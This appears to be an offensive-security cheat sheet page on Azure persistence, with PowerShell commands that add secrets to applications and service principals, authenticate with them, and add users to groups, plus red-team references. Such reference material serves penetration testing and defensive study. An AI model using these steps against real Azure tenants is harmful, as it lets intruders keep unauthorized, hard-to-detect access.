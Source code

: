 # Azure Persistence

## Add Secrets to Application

* Add secrets with [lutzenfried/OffensiveCloud/Add-AzADAppSecret.ps1](https://github.com/lutzenfried/OffensiveCloud/blob/main/Azure/Tools/Add-AzADAppSecret.ps1)
    ```powershell
    PS > . C:\Tools\Add-AzADAppSecret.ps1
    PS > Add-AzADAppSecret -GraphToken $graphtoken -Verbose
    ```

* Use secrets to authenticate as Service Principal
    ```ps1
    PS > $password = ConvertTo-SecureString '<SECRET/PASSWORD>' -AsPlainText -Force
    PS > $creds = New-Object System.Management.Automation.PSCredential('<AppID>', $password)
    PS > Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant '<TenantID>'
    ```


## Add Service Principal

* Generate a new service principal password/secret
    ```ps1
    Import-Module Microsoft.Graph.Applications
    Connect-MgGraph 
    $servicePrincipalId = "<service-principal-id>"

    $params = @{
        passwordCredential = @{
            displayName = "NewCreds"
        }
    }
    Add-MgServicePrincipalPassword -ServicePrincipalId $servicePrincipalId -BodyParameter $params
    ```


## Add User to Group

```ps1
Add-AzureADGroupMember -ObjectId <group_id> -RefObjectId <user_id> -Verbose
```


## References

* [Maintaining Azure Persistence via automation accounts - Karl Fosaaen - September 12, 2019](https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/)
* [Microsoft Graph - servicePrincipal: addPassword](https://learn.microsoft.com/en-us/graph/api/serviceprincipal-addpassword?view=graph-rest-1.0&tabs=powershell)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)